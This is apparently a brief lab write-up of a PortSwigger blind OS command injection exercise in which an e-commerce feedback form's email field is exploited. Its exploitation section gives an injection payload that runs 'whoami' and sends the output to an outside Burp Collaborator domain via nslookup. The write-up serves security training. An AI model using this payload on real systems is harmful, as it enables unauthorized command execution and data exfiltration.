



TARGET: 

PLATFORM:  PORTSWIGGER

DIFFICULTY: PRACTIONER

DATE:  18/03/2026

OBJECTIVE: 

```
execute "whoami" and exfiltrate the output via dns query
```

LAB:




RECON


The site is an e-commerce.

Our target is the submit feedback section which may allow us to execute  arbitrary commands on the target system.


EXPLOITATION


Since we had already identified the email field to be vulnerable to blind command injection our objective is now to exfiltrate data via it on dns query.
Fire up burp collaborator:

```
Burp collaborator enables us to listen and detect out-of-bound (OOB) interactions from a web application.

```

ATTACK METHODOLOGY:

- inject 
```
&  nslookup `whoami`.<domain> & 
```
- Send the request via burp's repeater  and wait for output on burp collaborator




Perfect !.Our target responded and we got the response and complete the objective.




